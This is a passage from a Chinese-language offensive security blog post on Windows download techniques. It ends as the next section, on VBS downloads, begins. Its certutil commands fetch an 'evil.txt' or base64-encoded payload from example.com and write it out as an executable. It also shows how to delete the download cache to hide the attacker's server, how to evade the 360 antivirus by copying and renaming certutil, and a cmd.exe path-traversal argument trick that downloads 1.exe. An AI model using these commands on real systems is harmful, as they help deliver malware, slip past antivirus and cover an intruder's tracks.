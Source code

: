 ![image-20210907100734469](/img/image-20210907100734469-4138597.png)

更多的功能可以参考[D1T2 - Daniel Bohannon - Invoke-DOSfuscation.pdf (hitb.org)](https://conference.hitb.org/hitbsecconf2018ams/materials/D1T2 - Daniel Bohannon - Invoke-DOSfuscation.pdf)

## certutil

certutil.exe是一个命令行程序，作为证书服务的一部分安装，你可以使用Certutil.exe转储和显示证书颁发机构（CA）配置信息，配置证书服务，备份和还原CA组件，以及验证证书，密钥对和证书链。

我们可以利用certutil.exe去下载我们的文件

```
//下载命令
certutil -urlcache -split -f http://example.com/evil.txt test.exe
//base64后进行下载
certutil -urlcache -split -f http://example.com/base64.txt
certutil -decode base64.txt test.exe

```

当我们下载成功后会存在一个日志文件，执行certutil.exe 可以看到我们的日志

![image-20210830163743555](/img/image-20210830163743555-4138597.png)

为了隐藏我们的下载日志，以免自己的服务器暴露，需要对下载的日志进行删除。

```
//删除下载日志的命令
certutil.exe -urlcache -split -f http://example.com/evil.txt delete
```

### bypass 360（该方法有点玄学，时灵时不灵）

在实际的测试过程中，发现360会监控certutil.exe文件，他会读取该文件执行时的commandline，这时候，我们可以将certutil.exe复制到另一个目录并修改文件名，这时候再执行操作360就不会进行拦截。

tips：存在一个问题，复制出来的certutil.exe可能会在多次执行后被360标记。这时候，就删掉该文件，重新选一个目录进行复制，可以解决问题

![image-20210830171929913](/img/image-20210830171929913-4138597.png)





![image-20210830171958958](/img/image-20210830171958958-4138597.png)

同时可以使用参数污染的形式进行绕过测试

```
cmd.exe /c "whoami..\..\..\..\..\..\..\..\..\..\..\..\..\windows\system32\certutil.exe" -urlcache -split -f http://example.com/1.exe 1.exe 
```



## vbs下载文件
